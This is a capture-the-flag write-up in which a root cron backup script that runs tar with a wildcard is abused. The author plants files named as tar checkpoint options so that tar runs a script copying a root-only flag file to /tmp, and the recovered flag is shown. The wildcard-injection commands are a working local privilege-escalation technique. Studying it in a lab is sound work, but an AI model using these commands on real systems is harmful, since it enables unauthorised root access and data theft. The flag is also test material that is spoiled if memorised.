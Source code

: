 The `backup.sh` file is not a regular linux file :p

```bash
$ cat /backup.sh
#!/bin/sh

/bin/rm -rf /backups/*
cd /opt/src/ && /bin/tar -cvzf /backups/bck-src_`/bin/date +"%Y-%m-%d_%H%M"`.tar.gz *
/bin/chmod 440 -R /backups
```

Ok, the exploit is tar wildcard: https://thanat0s.trollprod.org/2014/07/et-hop-ca-root/

### Exploit

First, where is the flag:

```bash
$ ls -la /opt/src 
total 12
drwxrwxrwx 1 root root 4096 Dec 21 19:03 .
drwxr-xr-x 1 root root 4096 Dec 20 18:27 ..
-r--r----- 1 root root   26 Dec 20 18:24 .flag.txt
```

Second, exploit time :D

```bash
$ touch -- '--checkpoint-action=exec=sh install_suidbackdoor.sh' '--checkpoint=1'
$ echo 'cp /opt/src/.flag.txt /tmp/flag_maki' > install_suidbackdoor.sh
$ echo 'chmod 777 /tmp/flag_maki' >> install_suidbackdoor.sh
```

After a minute: 

```bash
$ ls -la /tmp/flag_maki
-rwxrwxrwx 1 root root 26 Dec 22 12:32 /tmp/flag_maki
```

### Flag

> IMTLD{R04d_T0_Th3_sW1tCH}
